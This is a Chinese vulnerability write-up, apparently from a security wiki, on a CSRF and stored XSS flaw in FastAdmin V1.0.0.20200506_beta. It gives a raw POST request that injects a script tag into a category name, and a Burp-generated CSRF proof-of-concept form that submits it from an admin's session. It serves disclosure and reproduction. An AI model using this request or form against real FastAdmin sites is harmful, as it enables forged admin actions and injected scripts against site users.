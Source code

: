 FastAdmin csrf+存储型xss漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

V1.0.0.20200506\_beta

三、复现过程
------------

    POST /admin.php/category/add?dialog=1 HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 233
    Origin: https://www.0-sec.org
    Connection: close
    Referer: http://admin.com/admin.php/category/add?dialog=1
    Cookie: PHPSESSID=ou6fjfn717lu02rfm9saqguca4; uid=3; token=f824ac8c-ac7b-4979-a89b-b47dd8e79226

    row%5Btype%5D=default&row%5Bpid%5D=0&row%5Bname%5D=%3Cscript%3Ealert(1)%3C%2Fscript%3E&row%5Bnickname%5D=123&row%5Bimage%5D=1&row%5Bkeywords%5D=123&row%5Bdescription%5D=123&row%5Bweigh%5D=0&row%5Bstatus%5D=normal&row%5Bflag%5D%5B%5D=

### csrf poc

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="https://www.0-sec.org/admin.php/category/add?dialog=1" method="POST">
          <input type="hidden" name="row&#91;type&#93;" value="default" />
          <input type="hidden" name="row&#91;pid&#93;" value="0" />
          <input type="hidden" name="row&#91;name&#93;" value="&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
          <input type="hidden" name="row&#91;nickname&#93;" value="123" />
          <input type="hidden" name="row&#91;image&#93;" value="1" />
          <input type="hidden" name="row&#91;keywords&#93;" value="123" />
          <input type="hidden" name="row&#91;description&#93;" value="123" />
          <input type="hidden" name="row&#91;weigh&#93;" value="0" />
          <input type="hidden" name="row&#91;status&#93;" value="normal" />
          <input type="hidden" name="row&#91;flag&#93;&#91;&#93;" value="" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

![1.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmincsrf+存储型xss漏洞/media/rId25.png)

![2.png](/Users/aresx/Documents/VulWiki/.resource/FastAdmincsrf+存储型xss漏洞/media/rId26.png)

参考链接
--------

> https://github.com/karsonzhang/fastadmin/issues/67
